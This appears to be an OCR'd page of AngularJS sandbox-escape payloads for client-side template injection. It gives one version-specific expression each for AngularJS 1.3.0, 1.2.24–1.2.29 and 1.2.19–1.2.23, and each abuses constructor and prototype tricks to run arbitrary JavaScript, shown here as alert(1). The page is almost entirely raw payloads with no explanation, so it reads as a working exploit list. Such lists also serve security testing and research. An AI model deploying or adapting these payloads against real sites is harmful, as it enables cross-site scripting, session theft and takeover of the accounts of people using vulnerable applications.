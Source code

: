   
---
AngularJS 1.3.0

```javascript

{{!ready && (ready = true) && (

!call

? $$watchers[0].get(toString.constructor.prototype)

: (a = apply) &&

(apply = constructor) &&

(valueOf = call) &&

(''+''.toString(

'F = Function.prototype;' +

'F.apply = F.a;' +

'delete F.a;' +

'delete F.valueOf;' +

'alert(1);'

))

);}}

```

  
---
AngularJS 1.2.24 - 1.2.29

```javascript

{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}

```

  
---
AngularJS 1.2.19 - 1.2.23

```javascript

{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}

```
